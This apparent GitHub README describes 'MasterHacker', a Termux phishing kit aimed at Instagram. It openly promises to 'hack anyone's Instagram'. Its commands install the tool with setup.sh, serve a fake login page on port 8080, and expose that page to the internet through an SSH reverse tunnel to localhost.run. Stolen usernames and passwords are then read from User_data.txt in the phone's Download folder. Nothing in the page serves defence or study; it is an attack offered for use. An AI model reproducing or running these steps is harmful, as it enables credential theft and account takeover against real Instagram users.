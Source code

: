 <h1 align="center"><u>MasterHacker</u></h1>




### [TERMUX] Install All Comments


```
pkg update && pkg upgrade -y
```
```
pkg install git openssh
```
```
git clone https://github.com/Masterdas/Instagram.git
```
```
cd Instagram
```
```
bash setup.sh
```
```
instagram
```
### [Termux] New Tap
```
ssh -R 80:localhost:8080 localhost.run
```
```
nano /storage/emulated/0/Download/User_data.txt
```
- `CTRL +  x enter open User_data.txt`

### [Termux] Help Commend

1 - Termux install package

2 - Packege setup bash setup.sh

3  - Termux New tap Open
 
4 - type instagram and Start Port forwarding

5 - User Number/password = open file🗃️ Download

6 - `cd /storage/emulated/0/Download/`

7 - `instagram`



<h4 align="center"> Hack anyone's Instagram and get images!</h4>
![Hack page and get images](https://raw.githubusercontent.com/Mouse99-tech/Photo/refs/heads/main/IMG_20250205_093528.jpg)




## [~] Find Me on :

- [![Github](https://img.shields.io/badge/Github-KasRoudra-green?style=for-the-badge&logo=github)](https://github.com/Masterdas?tab=repositories)

- [![Telegram](https://img.shields.io/badge/Gmail-KasRoudra-green?style=for-the-badge&logo=telegram)](https://t.me/masterdas000)

- [![Facebook](https://img.shields.io/badge/Facebook-KasRoudra-green?style=for-the-badge&logo=facebook)](https://facebook.com/x)
